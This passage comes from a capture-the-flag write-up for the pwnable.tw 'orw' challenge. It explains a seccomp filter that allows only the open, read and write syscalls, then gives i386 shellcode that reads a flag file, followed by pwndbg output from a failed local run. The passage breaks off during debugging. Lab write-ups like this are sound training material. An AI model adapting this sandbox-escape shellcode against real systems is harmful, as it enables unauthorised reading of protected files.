 From this, we can conclude that only basic file operations (`open`, `read`, and `write`) along with exit-related syscalls (exit, exit_group) are permitted. Syscalls such as `mprotect`, `execve`, or `dup2` are blocked, which significantly limits our ability to perform certain types of privilege escalation or shell spawning via standard techniques.

Given these constraints, the most viable approach is to craft a shellcode that adheres to the `seccomp` rules. Since we can open a file, read its contents, and write the output, we can design our shellcode to read the contents of a target file (e.g., a flag) and print it to stdout.

Now, let's write the shellcode that accomplishes this.

```py
    sc = asm('''

        push 0x6761
        push 0x6c662f77
        push 0x726f2f65
        push 0x6d6f682f
        mov eax, 5
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80

        mov ebx, eax
        mov ecx, esp
        mov edx, 0x100
        mov eax, 3
        int 0x80

        mov ebx, 1
        mov eax, 4
        int 0x80
        ''', arch='i386')
```

But when I tried to run it locally, I ran into a problem:

```sh
pwndbg>

Program received signal SIGSEGV, Segmentation fault.
0x0804a060 in shellcode ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────
 EAX  0x804a060 (shellcode) ◂— 0x676168 /* 'hag' */
 EBX  0xf7f07000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
 ECX  0x804a060 (shellcode) ◂— 0x676168 /* 'hag' */
 EDX  0xc8
 EDI  0xf7f5eb80 (_rtld_global_ro) ◂— 0
 ESI  0xfff15b74 —▸ 0xfff16fff ◂— '/home/alter/lab/pwnable.tw/orw/orw'
 EBP  0xfff15aa8 —▸ 0xf7f5f020 (_rtld_global) —▸ 0xf7f5fa40 ◂— 0
 ESP  0xfff15a9c —▸ 0x804858c (main+68) ◂— mov eax, 0
 EIP  0x804a060 (shellcode) ◂— 0x676168 /* 'hag' */
─────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────
 ► 0x804a060 <shellcode>       push   0x6761
   0x804a065 <shellcode+5>     push   0x6c662f77
   0x804a06a <shellcode+10>    push   0x726f2f65
   0x804a06f <shellcode+15>    push   0x6d6f682f
   0x804a074 <shellcode+20>    mov    eax, 5              EAX => 5
   0x804a079 <shellcode+25>    mov    ebx, esp            EBX => 0xfff15a8c ◂— '/home/orw/flag'
   0x804a07b <shellcode+27>    xor    ecx, ecx            ECX => 0
   0x804a07d <shellcode+29>    xor    edx, edx            EDX => 0
   0x804a07f <shellcode+31>    int    0x80 <SYS_open>
```